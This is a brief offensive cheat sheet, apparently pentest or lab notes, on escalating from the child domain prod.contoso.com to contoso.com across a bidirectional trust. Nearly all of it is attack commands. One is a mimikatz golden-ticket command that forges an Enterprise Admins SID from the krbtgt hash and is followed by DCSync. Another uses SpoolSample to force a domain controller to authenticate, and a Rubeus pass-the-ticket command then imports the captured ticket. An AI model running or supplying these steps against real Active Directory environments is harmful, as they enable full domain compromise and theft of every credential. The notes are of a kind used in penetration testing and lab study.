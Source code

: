 Bidirecctional trust between the prod.contoso.com and the contoso.com domain

**EXTRA SIDS:**

(Add some theory here)
To create a golden ticket with extraSIDs(in this case enterprise admins) with the krbtgt passwd hash:

`kerberos::golden /user:h4x /domain:origin-domain /sid:SID-of-origin-domain /krbtgt:krbtgt_passwdhash /sids:SID_of_target_domain-519 /ptt`

(The user specified does not need to exist)
Then DcSync. The DcSync will work since the trust between prod.contoso.com and contoso.com is bidirecctional. Meaning that the KDC from contoso.com trusts the KDC from prod.contoso.com

**PRINTERS:**

First force an authentication with SpoolSample to obtain a TGT from another domain(contoso.com), then import that TGT with rubeus and then dcsync.

Forcing the auth with spoolsample:

`.\SpoolSample.exe rdc01.contoso.com appsrv01.prod.contoso.com`

Importing the ticket with Rubeus:

`Rubeus.exe ptt /ticket:doIE9DCCBPCgAwIBBaEDAgEWooIEBDCCBABhggP8MIID+...`
